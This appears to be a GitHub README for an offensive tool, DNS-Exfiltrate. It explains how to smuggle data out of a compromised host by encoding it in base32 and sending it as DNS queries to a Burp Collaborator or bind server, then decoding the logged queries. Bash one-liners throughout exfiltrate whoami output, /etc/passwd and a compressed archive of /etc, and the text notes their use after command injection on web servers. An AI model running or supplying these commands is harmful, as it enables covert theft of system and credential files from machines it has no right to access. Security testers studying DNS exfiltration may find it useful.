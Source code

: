 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to decode exfiltrated data. 

Burp Collaborator allows appending hostnames to the provided address. For example: assume this is your collaborator address: `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

You may prepend a 'hostname' (maximum length of a DNS label is 63 bytes), assuming it uses characters safe in a DNS query (such as base32-encoded data, see below). This allows exfiltration (including blind exfiltration) of data via DNS. Works best with a private Burp Collaborator server (or any DNS server that logs queries). You may also do this with a public server and a sniffer such as tcpdump (no DNS server required). I plan to add pcap support in the future.

Exfiltrate the base32-encoded output from `whoami` via Burp Collaborator:

Command:

`a=$(whoami|base32|tr -d =);nslookup $a.q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

Burp Collaborator response:

`O53XOLLEMF2GCCQ.q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

![Screen Shot 2023-01-10 at 2 59 05 PM](https://user-images.githubusercontent.com/14989334/211650128-5d6a8562-3d64-4ec8-b530-bc47ae5a0db0.png)

`dns-parse.py` parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee` (requires "logLevel" : "DEBUG" in collaborator.config):

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Assumes hostnames are encoded in base32 (`A-Z`, `2-7`), which is the most efficent native encoding utility (on most Linux/Unix systems) that is safe for DNS queries. The `=` character (used to pad base32-encoded data to an 8 byte boundary) is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` appends any missing `=` characters.

Hex encoding is also safe for DNS queries (but is less efficient). I may add hex support in the future. base64 does not work due to `/` and `+`.

Thanks and credit to [Xavier Mertens](https://www.sans.org/profiles/xavier-mertens/) for his excellent [Internet Storm Center](https://isc.sans.edu/) post: [DNS Query Length... Because Size Does Matter](https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326)

## Use cases (bash):

Note that you will receive more reliable results by specifying the name server via `dig @`...

In the examples below: `<DNS Name>` is the random name provided by Burp Collaborator (AKA, the interaction ID). For example: use `q3uv485lz802ad6a7xz6c2izvq1hp6` if your Beef Collaborator address is `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`.

### Exfiltrate a file:

```
base32 -w 63 < /etc/passwd | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Name>.<DNS Server>; done;
```

Decode the file:

```
./dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d
```

### Exfiltrate a compressed file:

```
gzip - < /etc/passwd | base32 -w 63 | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Name>.<DNS Server>; done;
```

Decode/unzip the file:

```
./dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d | zcat
```

### Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked (but was slow). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

```
tar czf - /etc | base32 -w 63 | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Name>.<DNS Server>; done;
```

Decode/save the tar archive:

```
./dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d > exfiltrated.tgz
```

## Sample Logs

[collaborator1.log](collaborator1.log) (/etc/passwd exfiltration):

```
/dns-parse.py 165cmzb1cu1m3wso0k1k3udr7id91y collaborator1.log | base32 -d
```
